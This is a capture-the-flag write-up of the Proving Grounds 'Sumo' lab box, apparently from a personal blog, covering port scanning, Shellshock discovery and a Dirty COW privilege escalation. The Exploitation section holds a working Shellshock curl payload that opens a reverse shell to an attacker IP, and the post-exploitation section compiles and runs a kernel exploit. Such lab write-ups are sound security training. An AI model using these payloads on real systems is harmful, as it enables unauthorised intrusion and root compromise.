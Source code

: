 ```yaml
---

title: "Sumo"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, Web, Shellshock,  Dirty Cow]
mermaid: true
image: ../assets/img/pg/offsec.jpeg

---
```


The exploitation of the "Sumo" box involved several critical steps. First, intelligence gathering was conducted through a port scan using the nmap tool, identifying open ports such as 22 and 80. Enumeration revealed a potential vulnerability in the `/cgi-bin` directory, specifically the Shellshock vulnerability (CVE-2014-6271). Using the nikto tool, the Shellshock vulnerability was confirmed, allowing for remote command execution. The initial access was gained by exploiting this vulnerability through a crafted User-Agent header in a curl command. During post-exploitation, a vulnerable Linux kernel version was identified, and privilege escalation was achieved by using the Dirty COW exploit, leading to root access. The process included techniques for exploiting web vulnerabilities, remote command execution, and privilege escalation, culminating in total system access and the retrieval of proof files.

# Overview

```mermaid
graph TD
    A[Intelligence Gathering]
    A --> B[Port Scan > Port 22,80]
    B --> C[Enumeration: HTTP > Shellshock]
    C --> D[Exploitation > Shellshock Exploit]
    D --> E[Post-Exploitation: Privilege Escalation using Dirty COW]
    E --> F[Root Shell Access]

```

## 1. Information Gathering

### Port Scan

```bash
sudo nmap -sC -sV -p- 192.168.197.87 -T5 -v
```

Output

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Enumeration

### Port 80

![Untitled](../assets/img/pg/Sumo/Untitled.png)

Identified the Shellshock vulnerability using the nikto tool.

```bash
nikto -h http://192.168.244.87
```

Output

```
+ /cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability. 
See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
+ /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability. 
See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```

- Review
    1. The **`cgi-bin`** directory was found to have a vulnerability called `ShellShock`.
    2. **Shellshock** allows an attacker to execute arbitrary commands remotely on the affected system by exploiting a flaw in how Bash processes environment variables. Specifically, Bash allowed an attacker to insert malicious code as part of the value of an environment variable, which was interpreted and executed by Bash without restrictions. Exploiting this vulnerability, the page can generate an error.
    3. The "cgi-bin" directory is related to Shellshock because many CGI (Common Gateway Interface) scripts are executed in this directory. Shellshock primarily affected web servers that used CGI scripts written in Bash.
    4. You can find this vulnerability by noting that you are using an old version of Apache and cgi_mod (with the cgi folder) or by using nikto.

## 3. Exploitation

Initial Access

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.45.248/666 0>&1' http://192.168.244.87/cgi-bin/test
```

![image.png](../assets/img/pg/Sumo/image.png)

## 4. Post-Exploitation

Kernel Vulnerability

```bash
uname -a 
```

> Linux ubuntu 3.2.0-23-generic
> 

![Untitled](../assets/img/pg/Sumo/Untitled%201.png)

Exploit suggester on the target

![Untitled](../assets/img/pg/Sumo/Untitled%202.png)

I encountered a problem

![Untitled](../assets/img/pg/Sumo/Untitled%203.png)

Export $PATH

```
PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH
```

now, it worked perfectly

```bash
 gcc -pthread 40839.c -o dirtycow -lcrypt
 ./dirtycow
```

![Untitled](../assets/img/pg/Sumo/Untitled%204.png)

Root Access

![image.png](../assets/img/pg/Sumo/image%201.png)